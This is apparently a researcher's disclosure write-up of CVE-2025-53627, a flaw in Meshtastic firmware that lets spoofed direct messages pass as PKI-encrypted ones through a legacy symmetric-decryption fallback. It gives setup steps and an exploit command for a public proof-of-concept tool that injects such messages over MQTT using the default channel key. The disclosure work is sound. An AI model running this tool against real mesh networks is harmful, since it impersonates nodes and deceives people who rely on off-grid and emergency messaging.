

# Fallback to legacy symmetric encryption in Meshtastic firmware enables downgrade attack and spoofing of direct messages 

During recent research into mesh networking security, **randshell and I identified a vulnerability in the Meshtastic firmware** that allows crafted messages to masquerade as PKI-encrypted direct messages under certain conditions (**CVE-2025-53627**).

Meshtastic is a widely used open-source mesh networking platform built around LoRa and MQTT, commonly deployed for off-grid, emergency, and community communications. With the introduction of public-key cryptography (PKI) for direct messages in version 2.5, Meshtastic took an important step toward improving message confidentiality and authenticity.

## Core Issue

The vulnerability originates from how Meshtastic handles **direct message decryption and compatibility fallbacks**:

1. When a node receives a direct message, it tries attempts to decrypt it using **PKI** only if the `pki_encrypted` flag is present in the MeshPacket.
2. If not present, the firmware **falls back to legacy symmetric channel encryption**.
3. The client UI (mobile, web, etc.) does not reliably distinguish whether a message was actually decrypted via PKI or accepted via the fallback path.

This creates a downgrade opportunity where **a legacy-encrypted message can be accepted and displayed as if it were a PKI-secured direct message**, even though no asymmetric encryption was involved.

If an attacker knows the shared channel key (which is common on public or default channels) they can inject messages that appear to come from another node and appear to be securely encrypted.


## Proof of Concept: Spoofed Direct Messages

To demonstrate the issue in a reproducible and practical way, I've developed a proof-of-concept tool:

👉 **[https://github.com/0wulf/spooftastic_cli](https://github.com/0wulf/spooftastic_cli)**

This tool allows an attacker to craft and inject spoofed text messages over MQTT that are accepted by victim nodes and displayed as legitimate direct messages.

Below is the exact exploitation flow we used.


### PoC Setup

First, clone the repository:

```bash
git clone https://github.com/0wulf/spooftastic_cli
cd spooftastic_cli
```

Next, configure the environment:

1. Copy the example configuration:

   ```bash
   cp .env.example .env
   ```
2. Edit `.env` and update the values for your MQTT broker, credentials, and Meshtastic network.

Now create a Python virtual environment and install dependencies:

```bash
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```


### Exploitation Scenario

For this example:

* **Attacker node:** `!deadbeef`
* **Victim node:** `!abcd1234`
* **Channel:** `LongFast`
* **Channel key:** `AQ==` (default key)

The attacker sends a crafted direct message that intentionally triggers the legacy decryption fallback.

### 🚀 Exploit Command

```bash
python spooftastic.py send \
  --from-node '!deadbeef' \
  --gateway-node '!deadbeef' \
  --to-node '!abcd1234' \
  message \
  --message 'Spoofed message'
```

When executed, this command injects a message that the victim node accepts and displays as a direct message, despite it not being encrypted with the victim’s public key. 

<div align=center>
   
</div>

## Coordinated Disclosure

This vulnerability was **responsibly disclosed to the Meshtastic maintainers** prior to public release. We worked directly with the Meshtastic team to validate the issue, discuss its impact, and allow time for investigation and remediation before publishing the CVE and proof of concept.

We would like to thank the Meshtastic maintainers for their **professionalism, responsiveness, and collaborative handling** of the disclosure.

